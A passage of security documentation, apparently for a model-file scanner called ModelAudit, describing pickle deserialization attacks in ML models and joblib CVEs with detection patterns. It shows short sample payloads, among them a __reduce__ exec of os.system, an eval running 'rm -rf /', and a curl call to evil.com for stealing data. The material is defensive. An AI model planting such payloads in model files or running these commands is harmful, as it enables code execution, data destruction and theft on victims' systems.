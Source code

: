 **1. REDUCE Opcode Exploitation**

```python
# Malicious model can contain:
__reduce__ = lambda: (exec, ('import os; os.system("malicious_command")',))
```

**2. Import-based Attacks**

```python
# Embedded in model pickle:
builtins.eval('__import__("os").system("rm -rf /")')
```

**3. Module Injection**

```python
# Dynamic module loading:
__import__('subprocess').call(['curl', 'evil.com/steal_data'])
```

### CVE-2020-13092: scikit-learn joblib.load Deserialization Vulnerability

- **Severity**: CRITICAL (CVSS 9.8)
- **Description**: Deserialization vulnerability in scikit-learn ≤0.23.0 via `joblib.load()`
- **Impact**: Arbitrary code execution via crafted `__reduce__` methods calling `os.system`
- **Status**: Disputed (documented limitation, but real security risk)

**Detection Patterns**:

- `joblib.load` combined with system calls (`os.system`, `subprocess`)
- scikit-learn models with dangerous operations in `__reduce__` methods
- sklearn Pipeline objects with malicious payloads

### CVE-2024-34997: joblib NumpyArrayWrapper Deserialization Vulnerability

- **Severity**: HIGH (CVSS 8.1)
- **Description**: Deserialization vulnerability in joblib v1.4.2 via `NumpyArrayWrapper().read_array()`
- **Impact**: Arbitrary code execution through pickle.load() exploitation
- **Status**: Disputed by maintainers (intended for trusted cache only)

**Detection Patterns**:

- `NumpyArrayWrapper` combined with `pickle.load`
- `numpy_pickle` module with dangerous operations
- joblib cache exploitation with system calls

## ModelAudit Detection Capabilities

### CVE-2025-32434 Comprehensive Protection

ModelAudit provides comprehensive protection against CVE-2025-32434 through multiple detection layers:
